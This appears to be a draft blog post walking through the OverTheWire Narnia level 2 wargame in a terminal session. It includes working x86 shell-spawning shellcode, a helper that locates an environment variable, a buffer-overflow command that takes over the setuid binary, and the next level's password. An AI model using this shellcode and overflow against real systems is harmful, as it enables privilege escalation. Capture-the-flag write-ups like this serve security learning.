 +++
title = "Over the wire - narnia02"
description = "Over the wire - narnia02"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-02"
project_url = "https://greyhat.dk/over-the-wire-narnia-02"
type = "post"
+++



narnia2@melinda:/tmp$ cd d10
narnia2@melinda:/tmp/d10$ cat << EOF > getenv.c
> #include <stdio.h>
> #include <stdlib.h>
> #include <string.h>
> int main(int argc, char *argv[]) {
>         char *ptr;
>         if(argc < 3) {
>                 printf("Usage: %s <environment var> <target program name>\n", argv[0]);
>                 exit(0);
>         }
>         ptr = getenv(argv[1]); /* Get env var location. */
>         ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
>         printf("%s will be at %p\n", argv[1], ptr);
> }
> EOF
narnia2@melinda:/tmp/d10$ gcc getenv.c -o getenv
narnia2@melinda:/tmp/d10$ export EGG=$(python -c 'print "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"')
narnia2@melinda:/tmp/d10$ ./getenv EGG /narnia/narnia2
EGG will be at 0x7fffffffe922
narnia2@melinda:/tmp/d10$ file /narnia/narnia2
/narnia/narnia2: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=04d7450c01ac187b9bc8a55e19cbe81fe1eed7b1, not stripped
narnia2@melinda:/tmp/d10$ gcc -m32 getenv.c -o getenv
narnia2@melinda:/tmp/d10$ ./getenv EGG /narnia/narnia2
EGG will be at 0xffffd922
narnia2@melinda:/tmp/d10$ /narnia/narnia2 $(python -c 'print "A"*140 + "\x22\xd9\xff\xff")
> ^C
narnia2@melinda:/tmp/d10$ /narnia/narnia2 $(python -c 'print "A"*140 + "\x22\xd9\xff\xff"')
$ whoami
narnia3
$ /etc/narnia_pass/narnia3
/bin//sh: 2: /etc/narnia_pass/narnia3: Permission denied
$ cat /etc/narnia_pass/narnia3
vaequeezee

